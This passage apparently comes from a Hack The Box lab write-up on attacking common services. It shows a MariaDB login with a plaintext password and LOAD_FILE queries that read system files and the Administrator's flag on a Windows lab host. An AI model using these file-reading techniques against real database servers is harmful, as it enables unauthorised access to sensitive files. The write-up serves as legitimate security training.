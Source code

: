 #### MySQL Exploitation

```
┌──(nabla㉿kali)-[~]
└─$ mysql -h 10.129.183.247 -u fiona -p'987654321'

Server version: 10.4.24-MariaDB mariadb.org binary distribution

[SNIP]

MariaDB [none]> SELECT @@version_compile_os; 
+----------------------+
| @@version_compile_os |
+----------------------+
| Win64                |
+----------------------+

MariaDB [(none)]> SHOW VARIABLES LIKE "secure_file_priv";
+------------------+-------+
| Variable_name    | Value |
+------------------+-------+
| secure_file_priv |       |
+------------------+-------+

MariaDB [(none)]> SELECT LOAD_FILE("C:\\whoops");
+-------------------------+
| LOAD_FILE("C:\\whoops") |
+-------------------------+
| PoC.                    |
+-------------------------+

MariaDB [(none)]> SELECT LOAD_FILE("C:\xampp\apache\conf\httpd.conf");

+----------------------------------------------+
| LOAD_FILE("C:\xampp\apache\conf\httpd.conf") |
+----------------------------------------------+
| NULL                                         | ❌
+----------------------------------------------+

MariaDB [(none)]> SELECT LOAD_FILE('C:/Users/Administrator/Desktop/flag.txt');
+------------------------------------------------------+
| LOAD_FILE('C:/Users/Administrator/Desktop/flag.txt') |
+------------------------------------------------------+
| HTB{t**********************************              | 📌
+------------------------------------------------------+
```

---
---

### Attacking Common Services - Medium
